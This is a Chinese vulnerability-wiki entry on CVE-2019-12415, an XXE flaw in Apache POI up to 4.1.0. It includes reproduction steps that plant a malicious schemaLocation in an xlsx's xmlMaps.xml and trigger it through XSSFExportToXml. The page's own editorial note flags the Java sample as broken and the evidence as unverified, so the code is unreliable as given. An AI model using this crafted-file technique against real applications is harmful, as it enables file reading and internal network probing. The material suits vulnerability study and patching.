



# （CVE-2019-12415）Apache POI \<= 4.1.0 XXE漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<=4.1.0，应用对不可信xlsx调用XSSFExportToXml并启用验证；4.1.1修复，访问远端schema需网络可达
- 证据范围：xmlMaps.xml插入schema引用与isValid路径相符，不是所有Excel读取都触发。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 描述第三参数为true，样例重载只有两个参数，应明确所用API签名
- Java for循环整行粘连，行注释把exportToXML调用和右花括号吃掉，代码无法按意图执行
- 十天前/最新版本无日期，应改历史固定版本表述
- schema网络访问证明与本地文件读取能力需分别验证；xsd:schema伪链接及图后重复尾巴需清理

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

### 什么是POI

Apache
POI是Apache软件基金会的开放源码函式库，POI提供API给Java程序对Microsoft
Office格式档案读和写的功能。

### 关于CVE-2019-12415

这是最近的POI官方宣布出来的一个XXE漏洞，可以影响到4.1.0版本，官方已在十天前更新了4.1.1版本，最新版本修复了这个XXE漏洞。

在最高4.1.0的Apache
POI中，当使用工具XSSFExportToXml转换用户提供的Microsoft
Excel文档时，特制文档可允许攻击者通过XML外部实体（XXE）从本地文件系统或内部网络资源中读取文件。加工中。

根据官方介绍，防御是在使用 XSSFExportToXml类xlsx转xml时触发的。

diff了一下4.1.0和4.1.1
XSSFExportToXml类的原始代码，发现在isValid方法里多设置了一个功能。

问题就出在 XSSFExportToXml\#isValid 方法里，如果
XSSFExportToXml\#exportToXML方法的第三个参数为true逐步进入
isValid触发XXE。

ApachePOI<=4.1.0XXE漏洞/media/rId24.png)

二、漏洞影响
------------

Apache POI\<=4.1.0

三、复现过程
------------

    XSSFWorkbook wb = new XSSFWorkbook(new FileInputStream(new File("CustomXMLMappings.xlsx")));
    for (XSSFMap map : wb.getCustomXMLMappings()) {     XSSFExportToXml exporter = new XSSFExportToXml(map); // 使用 XSSFExportToXml 将 xlsx 转成 xml     exporter.exportToXML(System.out, true);//第一个参数是输出流无所谓，第二个参数要为 true}

然后下载这个xlsx文件。

    https://github.com/apache/poi/raw/f509d1deae86866ed531f10f2eba7db17e098473/test-data/spreadsheet/CustomXMLMappings.xlsx

把文件替换为" CustomXMLMappings.zip"并解压文件。

编辑 CustomXMLMappings/xl/xmlMaps.xml 文件。

在 [xsd:schema](xsd:schema) 标签里面加上一行代码。

    <xsd:redefine schemaLocation="http://127.0.0.1:8080/"/>

ApachePOI<=4.1.0XXE漏洞/media/rId28.png)

然后把xlsx释放出来的所有文件再用zip打包回去，改成
CustomXMLMappings.xlsx。

最后一步监听本地8080端口，运行POC。ApachePOI<=4.1.0XXE漏洞/media/rId29.png)
